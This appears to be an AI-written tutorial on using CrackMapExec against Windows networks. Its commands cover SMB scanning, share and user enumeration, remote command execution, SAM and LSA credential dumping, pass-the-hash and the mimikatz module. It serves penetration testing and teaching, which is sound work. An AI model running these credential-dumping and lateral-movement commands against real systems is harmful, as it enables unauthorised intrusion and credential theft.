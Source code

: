 # crackmapexec

## Step 1: Installation

First, ensure you have Python 3.6+ installed on your machine. You can install CrackMapExec using pip:

```bash
pip install crackmapexec
```

Alternatively, you can install it from the source:

```bash
git clone https://github.com/byt3bl33d3r/CrackMapExec
cd CrackMapExec
python setup.py install
```

### Step 2: Basic Usage

#### 2.1. Scanning a Network

To scan a network and identify live hosts:

```bash
cme smb 192.168.1.0/24
```

This command will scan the specified subnet (192.168.1.0/24) and list all hosts that have SMB (Server Message Block) enabled.

#### 2.2. Enumerating Shares

To enumerate shared folders on a specific host:

```bash
cme smb 192.168.1.10 -u username -p password --shares
```

Replace `username` and `password` with valid credentials. This command will list all shared folders on the host 192.168.1.10.

### Step 3: Authentication Methods

#### 3.1. Using Username and Password

You can provide a username and password for authentication:

```bash
cme smb 192.168.1.10 -u username -p password
```

#### 3.2. Using NTLM Hash

If you have the NTLM hash of a user’s password, you can authenticate using the hash:

```bash
cme smb 192.168.1.10 -u username -H ntlm_hash
```

#### 3.3. Using a Credential File

You can also use a file containing credentials:

```bash
cme smb 192.168.1.10 -C credentials.txt
```

The `credentials.txt` file should have credentials in the format:

```
username:password
username:ntlm_hash
```

### Step 4: Executing Commands

#### 4.1. Remote Command Execution

To execute a command on a remote host:

```bash
cme smb 192.168.1.10 -u username -p password -x "ipconfig /all"
```

This will run the `ipconfig /all` command on the remote host and display the output.

#### 4.2. PowerShell Commands

To execute a PowerShell command:

```bash
cme smb 192.168.1.10 -u username -p password -X "Get-Process"
```

### Step 5: Enumerating Users and Groups

#### 5.1. Enumerating Domain Users

To list all users in the domain:

```bash
cme smb 192.168.1.10 -u username -p password --users
```

#### 5.2. Enumerating Domain Groups

To list all groups in the domain:

```bash
cme smb 192.168.1.10 -u username -p password --groups
```

### Step 6: Credential Dumping

#### 6.1. Dumping SAM Database

To dump the SAM database from a remote host:

```bash
cme smb 192.168.1.10 -u username -p password --sam
```

#### 6.2. Dumping LSA Secrets

To dump LSA secrets:

```bash
cme smb 192.168.1.10 -u username -p password --lsa
```

### Step 7: Pass-the-Hash Attacks

To perform a pass-the-hash attack using an NTLM hash:

```bash
cme smb 192.168.1.10 -u username -H ntlm_hash --exec-method smbexec -x "ipconfig /all"
```

### Step 8: Advanced Usage

#### 8.1. Custom Modules

CrackMapExec supports custom modules that can extend its functionality. For example, to use the mimikatz module:

```bash
cme smb 192.168.1.10 -u username -p password -M mimikatz
```

#### 8.2. Config Files

You can use a configuration file to store your options and credentials:

```bash
cme smb 192.168.1.10 -c config.yaml
```

## Conclusion

CrackMapExec is a powerful tool for penetration testers and security professionals, allowing for a wide range of operations on Windows networks. The commands provided above are just a starting point; CME has many more features and options that can be explored in its [official documentation](https://github.com/byt3bl33d3r/CrackMapExec/wiki).

Feel free to ask if you have any specific scenarios or need further examples!